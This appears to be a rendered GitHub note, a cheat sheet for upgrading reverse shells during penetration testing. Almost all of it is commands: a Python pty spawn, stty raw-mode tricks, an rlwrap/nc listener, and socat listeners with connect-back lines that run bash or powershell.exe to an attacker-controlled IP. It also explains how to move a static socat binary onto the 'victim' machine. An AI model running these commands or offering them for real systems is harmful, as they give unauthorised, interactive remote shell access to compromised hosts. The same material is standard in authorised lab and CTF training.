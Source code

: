      
  
**PYTHON METHOD**  
1) python3 -c 'import pty; pty.spawn("/bin/bash")'  
2) export TERM=xterm  
3) CTRL + Z to background the shell  
4) stty raw -echo; fg  
  
Type ‘reset’ when finished or if shell dies  
  
  ---
  
  
**If there are wrapping rows/colums issue**  
  
1) stty -a (on own machine)  
2) stty rows <rows> columsn <columns> (on victim shell)  
  
  
  
**RLWRAP METHOD** (useful for Windows shells)  
  
1) rlwrap nc -lvnp <port>  
\*OPTIONAL FOR LINUX\*  
2) CTRL+Z  
3) stty raw -echo; fg  
  
  
  
  
**SOCAT METHOD** (Linux only)  
1) transfer socat static compiled banary to target ([https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true))  
2) socat listener: _``socat TCP-L:<port> FILE:`tty`,raw,echo=0``_3) connect back  
Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`  
Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`  
  
  
SHELL=/bin/bash script -q /dev/null  
/bin/sh -i  
  
  
  
  
socat OPENSSL-LISTEN:<port>,cert=encrypt.pem,verify=0 ``FILE:`tty`,raw,echo=0``  
  
`socat OPENSSL:10.10.10.5:<port>,verify=0` EXEC:"bash -li",pty,stderr,sigint,setsid,sane